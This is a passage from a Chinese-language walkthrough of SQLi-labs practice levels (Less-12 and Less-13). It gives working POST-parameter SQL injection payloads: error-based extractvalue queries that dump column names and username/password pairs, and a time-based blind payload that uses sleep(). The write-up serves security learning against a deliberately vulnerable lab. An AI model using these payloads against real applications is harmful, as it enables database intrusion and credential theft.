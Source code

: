 爆列payload

```
uname=admin"  and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users')))  and "  &passwd=admin&submit=Submit
```

同样使用not in查询没有显示出的其他值。

爆值payload

```
uname=admin"  and extractvalue(1,concat(0x7e,(select group_concat(username,'~',password) from users)))  and "  &passwd=admin&submit=Submit
```



法二 联合查询

![image-20201110174205614](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110174205614.png)

和之前一样



## 0X0DLess-13

**POST - Double Injection - Single quotes- String -twist (POST单引号变形双注入)**

通过报错提示可看出通过’）闭合，但无登陆成功返回信息

![image-20201110175214006](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110175214006.png)

方法一，报错型

既然它返回错误信息了，说明有回显，可以报错注入。

样例payload

```
uname=admin') and extractvalue(1,concat(0x7e,(select database()))) #
```

![image-20201110175446491](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110175446491.png)

uname=admin')  and extractvalue(1,concat(0x7e,(select group_concat(username,'~',password) from users))) # &passwd=admin&submit=Submit

![image-20201110175552861](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20201110175552861.png)

在concat()中构造查询语句，完事，和less-12以及之前的报错型注入一样，不再赘述。

方法二，时间型盲注

因为可以报错注入，这个方法没有回显，就有点鸡肋了，给个样例payload：

```
uname=admin') and if(left(database(),1)='s',sleep(3),1) --+&passwd=admin&submit=Submit
```

